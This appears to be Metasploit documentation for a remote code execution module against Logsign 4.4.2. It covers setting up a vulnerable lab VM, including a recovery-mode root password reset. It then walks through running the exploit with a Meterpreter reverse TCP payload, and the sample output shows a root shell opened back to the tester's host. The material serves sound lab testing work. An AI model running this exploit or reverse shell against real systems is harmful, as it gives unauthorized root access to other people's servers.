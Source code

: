 ## Vulnerable Application

Download the vulnerable version of OVA or ISO file from following URL. I strongly suggest you to choose OVA.

[http://s3-eu-west-1.amazonaws.com/innotim/Logsign.ova](http://s3-eu-west-1.amazonaws.com/innotim/Logsign.ova)

### Creating A Testing Environment

1. Open OVA file with your preferred virtualisation application.
2. Before starting the virtual machine, choose NAT mode for interface.
3. Once the machine started, you must be seeing following information on screen.
```
Ubuntu 12.04.05 LTS - logsign customer tty1
IP: 12.0.0.10
...
Version: Focus
4.4.2 
```
4. Access the management interface by visiting `https://<ip_address>` through your browser.
5. Complete the installation by just submitting the fake data. 

**Please follow below instructions if you are seeing different IP address on the screen that doesn't belong to your NAT network range.**

Right after step 3, I've started to see totally different IP address on the screen which was something like 10.0.0.X. Since there is no such a network range in my configuration, it's impossible access to the machine through network. Here is the steps that shows how you can fix this issue. Follow these instructions and then go back to the step 5.

1. Reboot the machine
2. Start pressing ```shift``` button at the very beginning and keep pressing until you see GRUB menu.
3. Choose second line and press enter. We are going to about boot machine with recovery mode.
4. You must be seeing terminal right now. Execute following commands.
```
mount -rw -o remount /
```
5. Execute following command specify a new password for root user.
 ```
 passwd root
 ```
6. As a final step, reboot the machine.
 ```
reboot
 ```
7. Login with your root user.
8. Open ```/etc/network/interfaces``` file and perform necessary changes. Here is my own configuration. 
```
address 12.0.0.10
netmask 255.255.255.0
<removed line starting with 'network'>
<removed line starting with 'broadcast'>
gateway 12.0.0.2
dns-nameservers 8.8.8.8
```
9. Reboot the machine for a last time.

## Verification Steps

  1. Install the software as documented above
  2. Start `msfconsole`
  3. `use exploit/linux/http/logsign_exec`
  4. `set rhost 12.0.0.10
  6. `python/meterpreter/reverse_tcp` is configured as a default payload. Change it if you need. Most of the case, you're okay go with default payload type.
  7. `set LHOST 12.0.0.1`
  8. `check` and validate that you are seeing following output.

```
[+] 12.0.0.10:80 The target is vulnerable.
```

  9. Here you go. Type `exploit` and hit the enter.

```
[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Delivering payload...
[*] Sending stage (38651 bytes) to 12.0.0.10
[*] Meterpreter session 2 opened (12.0.0.1:4444 -> 12.0.0.10:46057) at 2017-02-28 14:11:20 +0100

meterpreter > getuid
Server username: root
meterpreter >
```
